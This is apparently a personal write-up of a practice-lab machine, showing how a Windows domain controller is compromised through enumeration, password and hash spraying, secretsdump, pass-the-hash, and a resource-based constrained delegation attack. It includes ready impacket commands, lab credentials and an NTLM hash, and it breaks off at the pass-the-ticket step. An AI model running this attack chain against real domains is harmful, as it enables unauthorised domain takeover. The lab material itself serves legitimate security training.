**Start 14:39 22-05-2025**

---
```
Scope:
192.168.142.175
```
## Recon
### Nmap

```bash
sudo nmap -sC -sV -sT -vvvv -p- -Pn -T5 --min-rate=5000 resourced

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2025-05-22 12:44:20Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: resourced.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: resourced.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
3389/tcp  open  ms-wbt-server syn-ack Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: resourced
|   NetBIOS_Domain_Name: resourced
|   NetBIOS_Computer_Name: RESOURCEDC
|   DNS_Domain_Name: resourced.local
|   DNS_Computer_Name: ResourceDC.resourced.local
|   DNS_Tree_Name: resourced.local
|   Product_Version: 10.0.17763
|_  System_Time: 2025-05-22T12:45:08+00:00
| ssl-cert: Subject: commonName=ResourceDC.resourced.local
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
49675/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         syn-ack Microsoft Windows RPC
49694/tcp open  msrpc         syn-ack Microsoft Windows RPC
49712/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: RESOURCEDC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Enum4Linux-ng



Further down I notice that it is able to enumerate RPC users:



Most interestingly:



This looks like a valid cleartext password, let's password spray it:



It matches, we have a valid set of credentials:

```
V.Ventz
HotelCalifornia194!
```

### 445/TCP - SMB

I first of all try to log into the `Password Audit` share since it looks interesting to me:





I had no idea what this was so I looked it up:





Well well, could be juicy!



Inside the `registry` directory we also find some good good:



I did some more research and found the following:



So essentially we can now use `impacket-secretsdump` to crack these files.

### secretsdump





We also get a metric shit ton of `Kerberos` keys:



I went ahead and put them into crackstation:



Hell yeah we recovered the *Administrator* hash!

```
Administrator
ItachiUchiha888
```



However for whatever reason `psexec` failed on me, let's password spray instead.



We notice that the creds indeed dont match for `smb`, and neither did it work with other services.

I decided to check back on this and do some thorough enumeration with `bloodhound` first.

## BloodHound





I then checked for the **Shortest paths to Domain Admins** and found this:



Turns out *L.Livingstone* is quite interesting then.

:::note
Shortly after getting stuck for a second I found out that you can actually spray **hashes** as well using `nxc` so I went ahead and did that.
:::

### Hash Spray - nxc





This thus meant that we could actually get access as *L.Livingstone* using `evil-winrm`, and luckily for us he does indeed happen to be an interesting account.

And the same counted for `rdp`:



However trying to log in via `rdp` failed:





## Foothold
### Pass-The-Hash - evilwinrm



:::success
I successfully gained entry using the hash.
:::

### local.txt



## Enumeration

Unfortunately we had absolute dog-tier privs:





Well what next? I checked `BloodHound` again:





:::note
Ah yes, yet again a **Resource-Based Constrained Delegation** attack, just like in the **Laser** challenge lab
:::

## Resource-Based Constrained Delegation (RBCD)

We start off by adding a new computer

```bash
impacket-addcomputer -computer-name 'evil$' -computer-pass 'Password1' -dc-ip resourced 'resourced.local/L.Livingstone' -hashes ':19a3a7550ce8c505c2d46b5e39d6f808'
```



Then we can check it on `winrm` whether it has been added succesfully:

```powershell
Get-ADcomputer evil
```



Perfect, now the fun part starts.


We will now `-delegate-to` the **RESOURSEDC$** computer:

```bash
impacket-rbcd -delegate-from 'evil$' -delegate-to 'RESOURCEDC$' -action 'write' -dc-ip resourced 'resourced.local/L.Livingstone' -hashes ':19a3a7550ce8c505c2d46b5e39d6f808'
```



Now we need to go ahead and get the `Service Ticket (ST)`:

```bash
impacket-getST -spn 'cifs/resourcedc.resourced.local' -impersonate 'Administrator' 'resourced/evil$:Password1' -dc-ip resourced
```



### Exporting ticket

We now export the ticket and in turn list it using `klist`:

```bash
export KRB5CCNAME=$PWD/Administrator@cifs_resourcedc.resourced.local@RESOURCED.LOCAL.ccache
klist
```



## Pass-The-Ticket

We can now easily log in as *Administrator* but first I'll add **resourcedc.resourced.local** to my `/etc/hosts` list to make my life easier:

